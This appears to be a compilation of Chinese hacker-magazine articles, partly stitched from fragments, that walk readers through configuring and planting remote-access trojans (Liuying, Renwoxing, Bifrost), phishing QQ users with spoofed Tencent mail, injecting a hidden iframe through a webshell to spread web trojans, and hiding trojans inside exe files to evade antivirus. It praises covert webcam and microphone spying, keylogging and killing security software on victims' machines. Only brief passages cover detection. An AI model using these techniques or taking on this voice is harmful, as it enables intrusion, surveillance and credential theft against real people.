说了这么多，大家一定以为我要为你介绍这款“QQ远控精灵”了。那你就错了，今天要为大家介绍的是“QQ远控精灵”的作者在2005年全新发布的一款名为“流萤”的木马程序……其服务端程序仅13K，体积小、运行稳定，并采用了反弹技术、线程插入技术、多进程操作技术等。

就是用户所在电脑当前的IP地址。当然，用户采用常见的域名反弹连接也可以，不过要提醒大家，流萤的服务端不支持163、263、yeah的域名解析，但支持3322的域名解析。如果没有的话可以免费申请一个……在首页中找到“现在希网全新推出‘动态域名服务’”，并点击“希网网络动态域名服务”，在弹出的窗口找到“动态域名”，然后点击下面的“新建”按钮申请动态域名，如图3、图4。

#### 配置服务端

运行client.exe即可启动“流萤”，图1就是“流萤”1.5版的启动画面。从中我们可以看到，木马“流萤”的操作界面简洁大方，操作界面的上方是一排命令按钮，用户可以通过这些按钮实现对远程计算机的控制；中间的一大块操作区域是上线的肉鸡列表；而最下面则是软件的提示栏。


图3


图4


图1

要使用木马程序，第一步就需要配置木马的服务端程序。点击工具栏上第六个“配置服务端”按钮，弹出一个“配置服务端”窗口，在此我们可以配置木马的连接域名、监听端口、服务端启动项等，如图2。


图2

在“流萤”的“配置服务端”窗口中，“连接端口”项是用于服务端程序和客户端进行连接时，本地计算机所打开的端口，默认端口数为2000，用户可以根据自己的需要更改端口。“流萤”的数据传输采用了单端口数据传输的方法，这样所有功能都只用一个端口进行数据传输，便于内网用户进行端口映射操作。“注册表键值”项用于设置木马服务端的启动名称，这样木马的服务端程序就可以随系统的启动而激活。

不过“流萤”的启动方法只是采用了最原始的利用注册表的“Software\Microsoft\Windows\CurrentVersion\Run”项进行启动，而没有采用现在流行的利用服务项或插件进行启动的方法。“辨识密码”就是服务端程序上线时的连接密码，如果辨识错误、不准确的话，用户就不能对远程计算机进行控制。另外，为了区别不同的远程肉鸡用户，我们可以通过设置“上线图标”来对不同的服务端进行区别。“流萤”在服务端的隐藏方式上采用了现在流行的线程插入的方法。选中下面的“是否生成dll进程插入类型”选项后，用户可以根据自己的需要选择将生成的服务端程序进程插入到资源管理器程序Explorer.exe的进程中或IE浏览器的IEXPLORE.EXE进程中实施服务端隐藏，这样不但可以轻松地穿透大多数防火墙，而且在进程管理器中也无法查到服务端自己的进程。如果用户没有选中“是否生成dll进程插入类型”选项，那么生成的服务端程序就会有自己的程序进程。当所有的设置完成后，最后点击“生成”按钮就可以生成我们需要的服务端程序了。生成的服务端程序只有13K大小，非常便于我们制作网页木马。

#### 种植服务端

现在最流行的木马种植方法当属网页木马了。这里我推荐用“动感网页木马生成器”，我们就用它来制作一个网页木马。运行“动感网页木马生成器”，在“请选择要运行的EXE文件”中填入刚刚生成的木马服务端程序，再在“输入存放木马的WEB文件夹路径”中输入网页木马的网站路径，然后点击“生成木马”按钮即可生成最新的网页木马，如图5。该木马生成器利用了微软的IE Help ActiveX控件本地安全域绕过漏洞。黑客可以将制作好的网页木马上传到网上，诱骗网友进行访问，就会落入我们精心设置的陷阱。


#### 控制服务端

在进行控制以前，我们还需要对客户端程序进行一些简单的设置。点击工具栏上的第二个按钮——“连接设置”，在弹出的“连接设置”窗口分别对“监听端口”和“连接密码”进行设置，如果用户在前面的服务端配置过程中重新设置过这些选项的话，这里也需要进行同样的设置，不然我们的肉鸡是找不到的，如图6。


设置完成后，点击工具栏上第一个按钮——“开始监听”打开系统的监听端口，等待服务端程序进行反弹连接。如果幸运的话，很快就会有肉鸡上线了，如图7。


在肉鸡列表中任意选择一台肉鸡，然后点击工具栏上的第三个按钮“接入主机”或者直接在列表上双击，就打开肉鸡的控制窗口，如图8。


从图中我们可以看出“流萤”的操作界面方便直观，通过窗口中的命令选项卡对各个功能进行统一管理，看上去和国内另一款木马PcShare的操作界面十分相像。虽然“流萤”生成的服务端程序体积极小，但并不意味着功能的缺失，木马的控制命令包括文件管理、注册表管理、系统管理、屏幕传输、其他控制等，这些功能操作起来都十分简单，很容易上手。

首先我们来看“流萤”的远程文件管理功能，点击图8中的“远程主机”后就会出现远程主机的磁盘列表，如图9。


文件管理完全采用了资源管理器的显示方式，我们可以方便地控制远程主机的文件。通过鼠标右键用户可以实现包括创建、上传、下载、复制、删除文件或目录、远程打开文件等多项文件操作功能。文件的传输支持断点续传，文件在进行上传或下载时，通过工具栏或者鼠标右键，选择“下载”或“上传”命令，然后木马就会自动切换到操作窗口中的“文件下载”面板，如图10。


从这里我们可以看到文件的下载进度，你还可以通过右键菜单随时进行文件传输的暂停、继续、停止等操作。由于文件的传输采用了多线程技术，所以木马支持多线程下载文件。用户通过右键菜单的“增加下载线程”和“减少下载线程”可以对下载的进程数进行修改。如果用户没有进行设置，下载文件会自动保存到木马目录下对应该主机名的文件夹中。要进行断点续传文件时，在“文件下载”面板中，点击右键的“从文件导入传输列表”命令，选择目录中的文件，该文件保存了上次没有下载完成的文件列表和信息，将它导入即可实现断点续传的操作。

在“其他控制”面板下，包括了一些类似恶作剧的远程控制命令。比如锁定鼠标、隐藏桌面、隐藏任务栏等功能。除此之外，还包括视频查看和语音监听功能，如图14。点击“开始”按钮，木马首先会自动检测对方系统中是否安装有视频设备，如果对方的确安装有视频设备，那么无论对方是否已经打开摄像头，“流萤”都可以强行打开摄像头对对方进行监控。点击“启动语音监听”按钮，“流萤”同样会自动检测对方系统中是否安装有麦克风，如果有就可以立即进行监听。如果“流萤”能实现对监听的视频、语音进行保存的话，那就更好了，希望下个版本作者能加上这个功能。

看完文件管理功能，我们再点击“注册表管理”面板，同样点击“远程主机”后就会出现远程主机的注册表信息，如图11。“流萤”的注册表管理命令完全模拟了本地的注册表管理工具，用户通过它可以对远程主机的注册表各个键值进行浏览、增删、复制、重命名和对键值的读写等所有注册表操作功能。


现在再来看看远程主机的情况，进入“系统管理”面板，可以得到远程主机的信息，包括系统平台、CPU、内存等，除了这些，还可以在右边的进程名称中查看远程主机当前的进程情况，通过右键命令我们可以关闭不喜欢的进程，比如杀毒软件或防火墙的进程，如图12。


“MS-DOS”面板就是直接在客户端程序中模拟出了远程的CMD终端，看上去和我们平时使用的命令提示符差不多，但在对方机器并不侦听端口，在此我们可以执行很多终端命令。由于超级终端同样是采用了反向连接，所以数据可以轻松穿越防火墙，如图15。


“文件下载”面板前面已经讲过了，下面我们就来看看“屏幕传输”面板。在“屏幕传输”面板中，用户点击工具栏的“开始”按钮就可方便地截取远程主机的当前屏幕，并且刷新速度非常快。通过工具栏上的“保存”按钮可以将截取的屏幕画面保存为JPG格式的图片。工具栏还有“最大化运行”“最小化运行”“正常运行”等按钮，用户可以对截取屏幕的分辨率进行更改，“最大化运行”的分辨率最佳，其后分辨率次之。选中“是否允许控制”选项后，可以对对方的鼠标键盘控制，我们就完全可以通过鼠标和键盘对客户端电脑进行远程桌面操作，工具栏上包括了常见的“Shift”“Ctrl”“Alt”等按钮，如图13。


至此，“流萤”的基本功能就为读者介绍到这，至于常见的服务端卸载等功能通过工具栏上的按钮即可实现。除了上面介绍的这些，“流萤”的木马程序还可以进行多线程多用户的操作，并且各个功能之间互不影响，这样就可以同时控制多个服务端电脑。当TCP连接因为意外中断后（主要指掉线、客户端异常终止等），服务端自动检测意外，并重新进行反弹连接。为了避免用户将键盘记录功能用于非法用途，记录别人账户密码等秘密资料，所以作者在开发时删除了这个功能。

总的来说，“流萤”作为一款全新的优秀的国产反弹型远程控制软件，我觉得在很多方面已经远远超过同类软件，而且服务端和控制端占用的内存都非常少，运行稳定。虽然“流萤”的远程控制功能并不太多，但所有的命令都是用户常见易用的，甚至是当前非常流行的。其实就笔者的使用感受来看，“流萤”的操作界面以及功能都和国产的另外一款木马PcShare非常相似，我想随着作者的不断开发，在新版本中一定会添加更多实用的控制功能，让我们拭目以待。


### 结合网页木马简单实现网络钓鱼

光之神谕

说到网页木马，菜鸟黑客肯定要两眼放光了，但由于网页木马在国内泛滥了很长一段时间，所以稍微有经验一点的网民现在都不会随便点击别人发来的网页。以前是不经思考接受别人发来的文件，现在是不轻易打开别人发来的网页了。

大家的警惕性提高了，说明网络安全意识都增强了。然而黑客的入侵手法是多种多样的，我们随时都要留心防范。最近在网上流行一种叫网络钓鱼的入侵手法，比如闹得沸沸扬扬的假工行网站事件，就是利用和真工行相似的域名制作假网站来欺骗网民盗取用户的账号，如图1。这种通过伪造信息的钓鱼攻击方式危害性正在逐渐蔓延扩大。

假腾讯QQ就有这方面的信息漏洞。我想大家都用过密码保护这个功能，当QQ密码丢失的时候，通过密码保护可以收到一封修改密码的邮件，仔细看下邮件内容会发现这不过是一封普通的HTML邮件，如图2。

点击链接后就可以到腾讯的网页修改QQ密码。你会发现修改QQ密码的网址后面的一串字符可以随便改，就算填错密码提交，也只会提示验证码错误。利用这点，我们就可以直接修改邮件HTML代码里的“a href=...”链接为自己的网页木马地址，让别人点击弹出的就是你的网页木马。

同时给网页加入几秒后自动跳转到真正的腾讯修改密码网页，这里的作用是给别人一个错觉，因为往往打开这个网页的第一感觉总是急于修改QQ密码，只要网址相似是不会被注意到的。当别人打开网页正准备修改密码的时候，迷迷糊糊就已经中了木马了，最后还跳转到真正的修改密码网页，感觉像自动刷新网页一样，就更难以发觉了。到这里诱人的“鱼饵”就制作出来了，肯定可以钓上N多的鱼。


图1

下面来演示一个完整的钓鱼过程，第一步就是做“鱼饵”，设计一个让人充分相信的网络陷阱。大家不要想得太复杂，做这个“鱼饵”关键是怎么伪造信息。


图2


图3


图4

“鱼饵”做好了，第二步就是“撒饵”了，说得简单点就是群发邮件。像04年在全世界范围造成了巨大危害的“网络天空”病毒，其主要的传播方法就是自动狂发病毒邮件。对于我们来说不可能做出这样的病毒，但是菜鸟有菜鸟的方法。这里使用的是MailGhost软件，先建立个搜索网站的任务，用户可以搜索指定网站内所有的邮件地址，如图5。

得到邮件地址后，我们可以针对搜索到的邮件地址再新建个邮件发送任务，最重要的是邮件头中的实际发件人填写“service@service.tencent.com”，主题填写“尊敬的用户，请查收重设QQ密码邮件”，邮件内容就是我们第一步制作的“鱼饵”，如图6。


图5


图6

密码的邮件就如出一辙了，如图7、图8、图9。放首好歌，喝口茶，然后我们看着成千上万的邮件发送出去了。


图7

钓鱼到这里就算完结了吗？“鱼饵”中的木马仍然严重。Windows的系统目录中有HOSTS文件，可做域名与IP映射，优先级高于DNS。钓鱼网页中常利用该机制进行地址重定向。


图8


图9

PcShare服务端的SP2网页木马（详见黑客X档案相关部分）由于体积小，适合制作网页木马。钓鱼者可远控电脑，修改HOSTS文件覆盖被控机文件，制造大量假网站场景。

```text
# Copyright (c) 1993-1999 Microsoft Corp.
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
# ...
127.0.0.1       localhost
71.5.7.138      www.3721.com
```

图10

的网络安全意识再提高一个层次，至于其他更高明的钓鱼攻击方式就留给读者自己研究了……

> （本章中涉及到的程序MailGhost、框架代码、SP2网页木马代码已经收录在光盘中）


图13


图14

检测“传输量”，蜜蜂8会在监控前自动检测传输量，这样无需人为设置。


图15

## 三、小结

至此，蜜蜂8的主要功能及用法介绍到此。除上述功能外，用户还可通过客户端与在线用户交流等。最后提醒：服务端程序清除困难，即使在客户端点击“清除木马”，系统仍可能遗留问题，使用与测试时务必谨慎。

> （本文涉及到的软件蜜蜂大盗8，光盘有收录）

### 国产木马新秀——“黑客X档案友情版：任我行”

HaJunEcK[F.W.S.T]

从以前单调的冰河木马，到前段时间火热的灰鸽子、黑洞，直至现在又一批木马新秀逐渐出现，菜鸟们占领肉鸡的拼搏又开始了。今天就让我给大家介绍一款国产木马新秀——“远程控制任我行”（哈哈，这个跟韩国版本不同的哦，这个是《黑客X档案友情版》的，是作者专门给黑客X档案制作的）。好了，让我们先来一睹它的风采，如图1。


图1

怎么样？从外观上感觉，就比普通版本的好很多了吧？增加了流线型的美感，普通版的总感觉有点呆板。呵呵，反正我个人还是喜欢这款《黑客X档案友情版》。说了一堆废话，直接来体验一下它的各项功能吧。首先，我教大家怎么配置它的服务器端，主要分为正向连接和反向连接两种连接方式，这里菜鸟们先来看有正向和反向连接的一些区别：

- 1. 你和对方都在同一个局域网中——反向连接和正向连接都可以使用。
- 2. 你在局域网中，对方是ADSL直接拨号上网（对方有外网IP）——请使用正向连接。
- 3. 你是ADSL直接拨号上网，对方在局域网或者网吧（你的本机是外网IP）——请使用反向连接。
- 4. 双方都是ADSL直接拨号上网（你的机器和肉鸡都有外网IP）——反向连接和正向连接都可以使用。
- 5. 你在一个局域网中，对方在另一个局域网中——借助第三方软件才可以连接，否则反向连接和正向连接都无法使用。

好了，基本的原理我们大概都知道了，现在就开始跟着我来配置吧。因为我的电脑处于局域网内，没办法了，唯有按照上面说的先进行端口映射（可以借助第三方软件）。你们可以选择使用端口映射工具或者进入路由器进行映射。这里我简单说说在路由器中如何映射端口。首先，进入路由器，然后找到“转发规则”，如图2：


图2

服务端口就是你要映射的端口，我这里要映射的是80端口，IP地址填写你的本地内网IP，然后保存就可以了。好啦，映射好了，再去这个网址http://www.oray.net/（花生壳网址），注册个免费域名，并下载它的客户端，安装运行并登录，再把自己的域名跟自己的动态IP绑定，这样我们现在就相当于外网了，可以方便使用远程控制软件了。先配置正向连接，步骤：选择“配置服务端”→“正向连接型”，进入配置主界面。“基本设置”中，端口号和密码分别默认是：4778和123；“邮件设置”里，发送IP信箱和接收IP信箱可以是同一个，密码为你自己的邮箱密码（这里设置的邮箱是为了接收IP发送信件的，也就是说，那些动态的肉鸡，如果你是正向连接它，需要它的IP才可以连接；但是如果它重新拨号，IP会更换，那么当它IP更换时，就会自动把它的最新IP发到我们的信箱当中，那样肉鸡就不会跑了），如图3。

后面的“启动选项”“安装信息”“提示信息”都按照原来默认的就可以了，这样一个正向的服务端就配置好了。然后你把这个服务端跟其他应用程序捆绑或者什么方式发给你的朋友都随你了，之后你就填上要连接的主机IP、连接密码、连接端口，如图4。点“连接”按钮就可以了，这样对方的电脑就在你的控制下了。


图3


图4

说完了正向连接，现在再来玩玩流行的反向连接。反向连接有三种方式：URL域名转向、DNS解析域名和个人网页文件，下面我分别说下。

1. URL域名转向：首先需要一个转向域名，我们可以直接申请，到“自动上线设置”，选择“申请免费域名”，如图5。


图5

直接把要申请的域名和你要设置的密码、E-mail填好，URL转向地址则为我们的动态外网IP，注册好后，回到“URL域名更新”，再选择“更新IP到域名”（以后每次重新开机，要控制肉鸡的时候，都必须把IP换为你现在的动态IP，然后更新到域名，才会生效），如图6。


图6

再去配置服务端，回到反向配置。如图7，只需把我们刚申请到的域名填写到“URL域名转向”，后面的全部选择默认就好了。

2. 个人网页文件：这种方式比前面的方式稍微稳定点，不过这个需要你有个FTP空间，如果没有就没有办法了（不过……）。

## 牧马记

现在网上还是有提供免费空间的啦，去 Google 搜下吧！还是先回到“自动上线设置”——“FTP更新IP”，按照图8的配置填好就可以了。这里要注意的是，在你的空间里放一个文件名为 `ip.htm` 的空文件，然后跟刚才一样到“反向配置服务器端”那里，如图9，填完了然后生成服务端，别人一运行，就自动反弹连接你的机器了，就可以控制它了。

哈哈，看到了么？只要你回到反弹连接，它就会自动上线的了。然后就可以对他进行文件操作、视频监控、进程控制、远程语音视频、远程 cmdshell、远程注册表操作、远程在线广播等等。

最后，我们来看看肉鸡在做什么呢，试验一下它的“屏幕监视”功能。一款远程控制软件是否得到好评，很大关系取决于它的屏幕监视是否清晰，是否在连接速度上得到改善（这款“黑客X档案友情版”的远程控制代码有优化，屏幕监视效果不错），如图14。哦，原来在打牌啊，好了我们不打扰那个肉鸡了，让他慢慢玩牌吧。剩余的功能，就请大家去发掘了。

3. 最常用的啦，也是本人觉得最好用的一种了（嘿嘿，精彩的总在后头）。说起前面我们说的花生壳，现在派上用场啦。前面说到把自己在花生壳网站申请的域名、密码等信息填写到花生壳用户端里，就可以享受外网服务了，而且不需要手动更新IP，也会自动绑定动态IP。那么我们的反弹服务器端配置就更简单，直接来到“反向连接”配置，在“DNS解析域名”处，写上你在花生壳网站申请的域名，然后生成服务端就可以了，其余的都可以用默认设置，如图10。

说了那么多，好像大家不怎么相信我说的话哦，那好吧，看看刚才中了我们服务端的肉鸡，如图11。

这里我带大家体验一两个功能哦，文件管理、进程管理那些就不用我多说了，你们都会的啦。我们来看看这个“远程语音视频”，如图12。可以发送信息到肉鸡上，如果对方有摄像头，还可以静悄悄地开对方的摄像头，看到对方（如果是漂亮MM，那可赚到了）。它有个更加特殊的功能就是语音监听，我试验过还挺清晰的，不过无法给你们听了，你们回去慢慢玩吧。

再看看“远程命令控制”，如图13，可以直接关机、重启，还有锁定鼠标、隐藏桌面……还真有点恶作剧的感觉。如果想窃取什么秘密，还可以使用右边这个“键盘记录”哦。

总结：这款“黑客X档案友情版”的远程控制工具，个人感觉还是不错的，功能比较完整。虽然不比鸽子之类的远程控制软件老练，但稳定性和易用性都还可以，软件布局也较清晰，尤其是视频部分有改进。由于这款软件未公开发布，拿到软件的朋友还不赶快多谢我们的老大——黑客X档案！

> （文章中涉及到的远程控制工具《黑客X档案友情版》已经收录在光盘中）

### 遥控天地的彩虹桥——木马 Bifrost 分析

我们在成功渗透一台主机后，要做的第一件事就是留个后门，方便日后再次光临……程序都是别人写的，自己只是拿来简单配置一下就扔到肉鸡上放养。随着高手不断分析，已掌握不少情况：内核级后门、服务项、`system32\Rtkit` 目录及相关文件（globalc.dll、nps.sys、ntcs.dll、packet.dll、rtkit.exe）等特征。

了解了NTRootkit后就好办多了，只要我们停止Rtkit服务即可。建议不要直接删除文件，因为rootkit可能替换/修改系统文件，删除可能导致系统崩溃。作者由此引出木马分析的意义：知己知彼，方能百战不殆。

接着介绍“彩虹桥”命名由来：Bifrost（北欧神话中的彩虹桥），并调侃其作者与图标。文中指出木马最重要的是服务端设置，点击“生成器”可弹出设置界面（见图2）。

### 1 连接

DNS/IP处填写反弹连接的域名或IP地址。Bifrost仅支持反弹连接，不支持FTP中转。动态IP常需配合动态域名工具。文中提到其提供3个反弹地址选项。

### 2 安装

“安装名称”是服务端运行后生成文件的名称，建议伪装成系统风格名称。文中举例并说明“安装后删除自身（Melt after Installation）”“延时启动（Delayed Startup）”等选项含义。

### 3 启动

介绍多种启动方式（含ActiveX等），并与其他木马做对比，说明其启动机制特点。

### 4 线程插入

“插入到浏览器前尝试插入到特定进程”相关设置：可指定目标进程（如 explorer.exe），若找不到则可回退注入IE。右侧文字还提到服务端体积较小、融合反弹连接与线程插入等技术。

后文引入“木马分析专家（Trojan Analyzer）”，说明其可跟踪木马对系统的操作，便于配合抓图与监视工具进行分析。

- 1. 打开一个可执行文件，木马分析专家会运行并监视，直到进程结束或手工停止。
- 2. 可选择一个或所有工作进程（包括系统进程）进行跟踪。
- 3. 对Windows 95/98/ME可启用“允许写保护模式”等选项以保护关键扩展名文件。

> 注意：如果无法在此选项，“某些安装程序”可能无法工作。跟踪完成后，“写保护”会自动取消。

2. 木马分析专家在跟踪前和结束后会自动检查可执行文件关联（exe、com、pif、bat），如果文件关联被改变，木马分析专家会恢复它们，这将会保护系统免于病毒破坏。

在程序完成之后，或手动停止工作，会弹出分析结果。可以通过搜索或分类操作来检查变化。此外，还可以将结果输出到CSV文件格式，可以使用Excel或其它程序分析它们。

光说不练不行，俺就以按图2配置的服务端操作给大家看。木马分析专家的主界面如图3所示，是不是觉得很舒服啊？当然了，这都是施汉化的功劳嘛。

首先选择要加载的程序，就是服务端了。为了方便测试，俺将刚才生成的服务端拷贝到Winnt目录下，重命名为aaa000.exe。接下来就是最激动人心的时刻了，点击“开始”按钮运行服务端吧！

> 警告：此人有严重的自虐倾向，大家请不要刻意模仿。如需对木马进行分析，请务必在虚拟机中进行，或将主机设置为可还原状态。如有意外发生，请即刻前往 Hackerxfiles.net / 论坛求救。切记！切记！

服务端运行后，木马分析专家会一直跟踪该进程，直到进程结束。屏幕上会出现个小窗口“等待进程结束……aaa000.exe，点击此处结束进程…”，如图4。本例中aaa000.exe的进程很快就结束了，所以没有截图。进程结束后，分析结果就会自动弹出来，如图5、图6。

图6是注册表分析结果。大家不要被满篇的分析结果吓住，只需注意状态栏有提示的，如写入、创建、警告等。模式栏给出了操作过程，就不用深究了。

从图中我们可以看出，Bifrost在Winnt目录下生成 plugin1.dat 和 bir.exe，并且在注册表 `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下写入启动键 Startkey，如图7。Startkey 指向刚生成的 `Winnt\bir.exe`。

细心的读者可能发现图3中还有一项“监控所有进程”没有提到。该选项主要用于对付那些比较强大的木马，比如启动多个进程的。分析结果类似，只是条目更多一些。“参数”主要用于对付CMD下运行的后门，因为这种后门一般带有安装参数，如 `-install`。

还有第三个标签“跟踪进程”，这一项是在明确知道木马进程的前提下来跟踪木马操作的，如图8中的XDICT.EXE，并且跟踪过程中可以随时停止，分析结果就是这段时间内木马对系统的操作。

下面介绍控制功能。既然服务端已经运行，就先来看看端口情况吧。如图9，选中部分分析显示，我们可以清楚地看到XDICT.EXE在本地打开一个中转端口3613和客户端的2000端口进行通信。此时我们打开客户端，就会出现图1所示的MSN风格通知。

当然了，这里有个前提，就是在“设置”里选中此项，如图10。“端口”和“密码”是客户端在本地监听所用到的，必须和“生成器”里设置成一样的，否则可连接不上哦。

Bifrost的客户端做得比较朴素，初次接触可能会找不到控制按钮，其实它的控制全部都是通过右键菜单来完成的。

1. 该木马只提供了一些常用功能，如文件管理、系统管理、屏幕/摄像头捕获、键盘记录等，没有恶作剧功能。

文件管理器的界面如图12，很简单，不多说了。系统管理器的界面如图13，包括系统信息、进程列表、窗口列表和密码列表四个标签。说到系统信息，俺倒是想起一段小插曲。俺在进行汉化时，发现Bifrost内置了一个进程列表，就是国际通用的那个。一开始俺还以为它能够自动干掉防火墙呢，后来发现，它只不过是识别一下。这不，它把俺的金山毒霸（KAVSvc）当成卡巴斯基了：）

## 利用 WEBSHELL 进行挂马

天涯豪客

千万不要告诉俺你还不会消除，否则会闹出人命的。只要按照片分析结果，很轻松就可以把“彩虹桥”拆掉的……

“更新”功能就像杀毒软件的升级一样，更新到新版本而已……

> 给新手朋友一点建议：不要使用流行的木马/后门……（Hacker Defender）

最后，祝Bifrost越来越靓丽！别忘了，知己知彼，方能百战不殆！

随着注射、提权手段的普及，很多菜鸟黑客都得到了大量的网站权限，进而上传ASP木马对网站进行长期控制……

#### 1. 制作网页木马

首先我们来配置我们的木马程序，然后把配置好的木马上传到网络空间中……制作网页木马的工具有很多……

#### 2. 制作 ASP 网页

我们要利用一个经典的ASP木马，如图3，我稍微做了一下修改……这个ASP木马已经没用武之地了……

#### 3. 挂马

有的菜鸟朋友可能已经不耐烦了，说了这么多，到底和挂马有什么关系呢？……

```html
<IFRAME SRC="网页木马的地址" width="180" height="115" frameborder="no" border="0" MARGINWIDTH="0" MARGINHEIGHT="0" SCROLLING="no"></IFRAME>
```

将“网页木马的地址”改为你的网页木马链接即可……当有用户登录到这个ASP网页的时候，网页已经在后台链接到木马地址并下载执行……

## 巧妙利用 RobinPE 将木马藏匿到 exe 文件中

提起文件捆绑器大家一定都很熟悉，它可以将一个正常的exe文件和木马捆绑成一个exe文件。常见的有灰鸽子的万能文件捆绑器、开山文件捆绑器等，但捆绑后用MT捆绑克星等捆绑检测软件很容易就可以发现文件被捆绑。今天我给大家带来的是见缝插针软件RobinPE，它是一个可以将木马（后门）文件插入藏匿到一个exe文件中的软件。插入藏匿后原文件大小不变，插入后每次启动正常的exe文件，我们插入的木马就会悄悄释放出，并在后台运行。

图2

### 一、利用 RobinPE 将灰鸽子潜入者插入藏匿到一个 exe 文件中

插入藏匿前，先介绍一个软件：灰鸽子潜入者。它可以从给定的地址处下载文件，下载完成后隐蔽运行。先申请一个免费空间，然后将木马上传到免费空间处，假设免费空间为 `http://www.sina.com`，将名为 hugezi.exe 的木马上传到免费空间。我们再运行灰鸽子潜入者，如图1。

图1

结论：“可以试试”。点“开始植入”按钮，很快将灰鸽子潜入者植入到记事本中，查看一下文件大小无变化。我们再用16位编辑器 WinHex 打开插入后的记事本，查找“This program”，只发现一处（一个文件头）；用瑞星杀毒扫描插入后的记事本没有报告有病毒；用MT捆绑克星查看插入后的记事本发现两处文件头。我们再给插入后的记事本加一个 Asprotect 壳，再用MT捆绑克星查看发现1处文件头，3种方法全部通过。

图3

在灰鸽子潜入者的HTTP下载地址处填上 `http://www.sina.com/hugezi.exe`，点“生成”按钮生成一个文件名为ok.exe的文件，文件大小仅为1.46k。运行它后可自动从 `http://www.sina.com/hugezi.exe` 处下载木马并隐藏运行。我们先用灰鸽子的万能文件捆绑器将Windows XP的记事本和灰鸽子潜入者捆绑在一起，如图2。然后用MT捆绑克星查看，发现3个文件头；再用16位编辑器WinHex打开记事本查找“This program”发现两处，也就是说两处文件头；使用瑞星扫描捆绑后的记事本，报告有病毒，常见的3种方法检测无一通过。我们再给捆绑后的记事本加一个Asprotect壳，除瑞星不报病毒外，其他两种检测方法MT捆绑克星和16位编辑器WinHex都无法通过。

我们再来看看见缝插针软件RobinPE。打开RobinPE，在“后门文件”中填入后门灰鸽子潜入者ok.exe文件的路径，在“整体植入”中填入记事本的路径。点“计算空间”按钮很快得出结论：“可以试试”。以上我是用记事本和灰鸽子潜入者进行的插入实验。你可将 Anskya Downloader 迷你版等小的后门插入到其他exe文件中。Anskya Downloader 迷你版与鸽子潜入者相比更好用，生成服务端时可以选择不加壳，这样便于自己给后门加其它壳，并且加壳后大小仅为1.16k。

图4

### 二、为文件增加区块，可将木马插入藏匿到 exe 文件中

由于正常文件的空隙毕竟有限，因此要想在一个exe文件中插入一个比较大的木马必须增大空隙，只有一个办法：增加区块。为文件增加区块可使用手工增加。首先，需要增加一个块头；增加块头指向的数据段；然后调整文件映像尺寸大小，不过实在麻烦，我们还是用工具吧！推荐使用Zeroadd软件。运行Zeroadd软件后，单击“Pick a file”按钮，打开记事本，如图5。

图5

在“Enter a name for the new section”处输入块名，名字可随便填，这里我填的“Hack”；在“Enter # of bytes to add (in .hex)”处填增加的字节数，注意字节数最好是200的倍数，否则由于对齐的原因，在Windows 2000和Windows XP下可能无法运行。然后点“Add new section”，结果出现提示对话“...”。

具体方法如下：LordPE汉化版，点“PE编辑器”打开记事本，如图6，在出现的窗口中点“目录”按钮，又出现一窗口，点“绑定导入”这一行的“H”按钮，又出现如图7所示的窗口，黑色的为 Bund Import 数据，偏移地址为 `00000250—00000313`。

用00填充后保存。然后再用LordPE汉化版重新打开记事本，将“绑定导入”处的（图6画线处）RVA的 `00000250` 改为 `00000000`，大小处的 `000000D0` 改为 `00000000`，点“保存”按钮即可。然后再用Zeroadd软件，用上述方法增加区块就不报错了。增加区块成功后，再用RobinPE就很容易地将木马插入到记事本中。如常见的网络神偷、灰鸽子就很容易插入到记事本中了，当然也可插入到其它程序中了。

图6

图7

另外还有一个软件TOPO，也可增加区块，也比较好用，但只能在Windows 98下面运行，使用Windows 98的朋友可以试试。

### 三、木马藏匿的检测和预防

当然，还是老办法：不要随便接收别人的文件，不要上小网站下载文件。至于检测我目前没有发现有什么好的办法，如果知道软件本身的MD5值最好了，检测一下MD5值就知道了，可是并不是每个软件的MD5值都知道。只能向你推荐一种间接的办法：当你下载一个程序后感觉可疑，但又需要安装或运行它，可先打开注册表监视工具 regshot 汉化修改版，在扫描目录里添加上 winnt（或windows）和 Program Files 目录，点“快照1”按钮；快照1完成后，再运行你下载的文件，运行后立即取消运行安装，一定不要安装，否则可能无法区分是软件本身增加的文件或注册表键值，还是木马增加的。如已下载的文件插入或捆绑木马了，运行程序的同时木马已经在后台运行了。再点“快照2”按钮，完成后再点“比较”按钮，如有文件或注册表键值增加，尤其要注意常见的几处木马动的注册表键值和winnt目录，很可能是个捆绑或插入文件。找到注册表中增加的键值和增加的文件直接删除，就可将木马清除了。

#### 四、一点说明

用上述方法插入木马时，被插入的程序和插入的木马最好无壳，成功率较高。插入的木马最好是类似“灰鸽子2005”等插线程的木马，被插入的文件最好大些，否则一个小文件变大太容易引起怀疑。另外木马一定要改造成免杀版，虽然插入后瑞星等病毒防火墙检不到，但在后台运行后，病毒防火墙仍可检测到。一定不要插入到 Windows 的浏览器等关键进程，否则 Windows 有很强的保护机制，Windows 发现重要文件变化后，马上就又从备份文件夹替换回去。

换回去后，如备份也被换，Windows 将报错，提示让你插入安装盘，而使木马暴露。事实上即使你替换记事本也可能报错，不信你试试，所以最好不要插入替换 Windows 的文件，插入替换其他常见的安装程序最好。经验理论上可将木马插入到任何文件，但仍有部分程序插入后报错，原因不明，望高手指点。（文中涉及到的工具 RobinPE、灰鸽子植入者、灰鸽子的万能文件捆绑器、MT 捆绑克星、WinHex、Zeroad、LordPE 汉化版、RegShot 汉化修改版已经收录于光盘中）


在网络上生活的网虫们，经常会遇到两个不同内网的机器互连的情况，比如说：帮助另一个网吧的 MM 或朋友解决问题，或者在内网中管理网吧或管理内网中的肉鸡……这都需要一个能突破内网的软件。单纯使用一个软件能实现的，据我所知不外乎 IRC 木马、QQ 远控精灵，还有 QQ 的远程协助。IRC 木马和 QQ 远控精灵功能实在有限，连最起码的屏幕控制都没有。有人会说，QQ 的远程协助就可以啊！QQ 的远程协助是很方便，但它的稳定性和速度确实不敢恭维，而且，能用它来管理网吧吗？看来这些都不行，还是那些功能强大、速度一流的远程控制软件比较爽。网上流传的方法都是通过一定的辅助软件找到一个中介机器实现内网互控的目的。今天我就针对不同的情况、不同的连接方式为大家总结一下，希望对菜鸟有所帮助，本篇先讲一下在主控机（本机）上运行辅助软件的方法。


